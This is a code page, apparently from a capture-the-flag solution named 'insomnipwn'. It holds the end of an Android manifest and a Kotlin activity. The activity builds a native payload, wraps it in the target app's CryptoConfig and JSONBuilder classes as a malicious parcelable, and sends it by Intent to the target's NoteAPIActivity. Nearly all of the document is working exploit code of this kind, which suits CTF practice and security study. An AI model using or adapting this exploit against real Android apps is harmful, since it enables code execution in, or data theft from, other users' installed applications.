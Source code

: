 ```xml
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```

```kotlin
//java/com/example/insomnipwn/MainActivity.kt
package com.example.insomnipwn

import android.content.Intent
import android.os.Bundle
import android.util.Log
import android.widget.Button
import android.widget.Toast
import androidx.appcompat.app.AppCompatActivity
import com.inso.ins24.utils.CryptoConfig

import com.inso.ins24.utils.JSONBuilder

class MainActivity : AppCompatActivity() {
    private external fun buildPayload(): ByteArray
    companion object {
        init {
            System.loadLibrary("mynativelib");
        }
    }
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        val pwnButton = findViewById<Button>(R.id.pwnButton)
        pwnButton.setOnClickListener {
            //Construct the malicious parcelable object
            val IN = "data"
            val ALGO = buildPayload();
            val evilCryptoConfig = CryptoConfig(ALGO, IN)
            val evilParcelable = JSONBuilder(evilCryptoConfig)

            //Send malicious Intent
            val intent = Intent()
            intent.setClassName("com.inso.ins24", "com.inso.ins24.NoteAPIActivity")
            intent.putExtra("my_first_note", "Note")
            intent.putExtra("foo", evilParcelable)
            startActivity(intent)

            Log.i("[insomnipwn]","Intent sent!")
            Toast.makeText(this, "Intent sent!", Toast.LENGTH_SHORT).show();
        }
    }
}
```
